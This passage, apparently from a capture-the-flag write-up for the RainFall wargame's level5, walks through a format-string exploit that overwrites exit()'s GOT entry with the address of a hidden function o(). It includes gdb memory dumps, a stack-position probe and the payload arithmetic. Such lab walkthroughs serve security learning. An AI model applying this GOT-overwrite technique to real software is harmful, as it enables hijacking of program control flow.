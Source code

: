 **GOT Entry Discovery:**
- **GOT address for exit()**: `0x8049838`
- This is where the program stores the actual address of the `exit()` function
- **Target**: Overwrite `0x8049838` with `0x080484a4` (address of function `o()`)

### 9. Current GOT State Analysis
```bash
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:       0xb7e5ebe0

(gdb) info symbol 0xb7e5ebe0
exit + 16 in section .text of /lib/i386-linux-gnu/libc.so.6
```

**Memory State:**
```
Before exploit:
0x8049838: [0xb7e5ebe0] → points to real exit() in libc

After exploit (goal):
0x8049838: [0x080484a4] → points to our function o()!
```

## Format String Position Discovery

### 10. Finding Our Input Position on the Stack
```bash
level5@RainFall:~$ echo "AAAA %4\$p" | ./level5
AAAA 0x41414141
```

**Stack Position Discovery:**
- **Our input appears at position 4** (using `%4$p`)
- `0x41414141` is the hex representation of "AAAA"
- **This means we can write to an address at stack position 4** using `%4$n`

### 11. Understanding the Format String Attack Vector
```
Format String Memory Write Mechanism:
1. Place target address (0x8049838) at beginning of our input
2. This address gets placed on the stack at position 4
3. Use %n to write the character count to that address
4. Control character count to write desired value (0x080484a4)
```

## Payload Construction - The Mathematics

### 12. Calculating the Target Value
```bash
# Target: Write 0x080484a4 to address 0x8049838
# 0x080484a4 in decimal = 134,513,828

# Format string payload structure:
# [target_address] + [padding] + [%n_write]
# 4 bytes + 134,513,824 bytes + %4$n

# Total characters printed = 134,513,828 = 0x080484a4 ✅
```

